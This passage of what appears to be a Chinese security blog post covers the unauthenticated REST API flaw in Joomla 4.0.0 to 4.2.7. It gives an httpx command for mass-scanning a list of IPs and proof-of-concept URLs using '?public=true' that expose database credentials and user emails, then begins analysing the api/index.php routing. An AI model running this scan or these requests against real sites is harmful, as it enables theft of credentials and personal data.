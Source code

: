 批量检测：

```
httpx -l ip.txt -path '/api/index.php/v1/config/application?public=true'

```

### 2、漏洞复现

>  
 直接将POC拼接到url 


```
http://127.0.0.1/Joomla4.2.7/api/index.php/v1/config/application?public=true
http://127.0.0.1/Joomla4.2.7/api/index.php/v1/users?public=true

```

### 3、回显出账号密码

>  
 /v1/config/application这个API用于获取网站最重要的配置信息，包含数据库的账号与密码。 


<img src="https://img-blog.csdnimg.cn/8a104de38521422dbfc766b99abd8e14.png" alt="在这里插入图片描述">

>  
 /v1/users这个API用于获取网站用户名以及邮箱账号 


<img src="https://img-blog.csdnimg.cn/402691ba93c543c980edfe28d8e48dc2.png" alt="在这里插入图片描述">

## 七、漏洞分析

>  
 原文链接：https://xz.aliyun.com/t/12175#toc-4 


### 1、Joomla简介

>  
 Joomla大致有三个路由入口，分别是 1、根目录的index.php(用户访问文章) 2、根目录的administrator/index.php(管理员管理) 3、根目录的api/index.php(开发者爱好的Rest API) 未授权的接口正是第三个入口。因此影响的只有Joomla4.0.0——Joomla4.2.7（Rest API 4.x正式开发） 


### 2、漏洞分析

>  
 这里仅重点分析api/index.php这个路由的问题（index.php和administrator/index.php找不到漏洞）。 网站输入/api/index.php开启debug模式 


<img src="https://img-blog.csdnimg.cn/8acfda30a25143ab9b2b759e8e10bc3f.png" alt="在这里插入图片描述">

>  
 index.php会来到app.php。其中$app主要的input成员存放所有的HTTP请求参数 
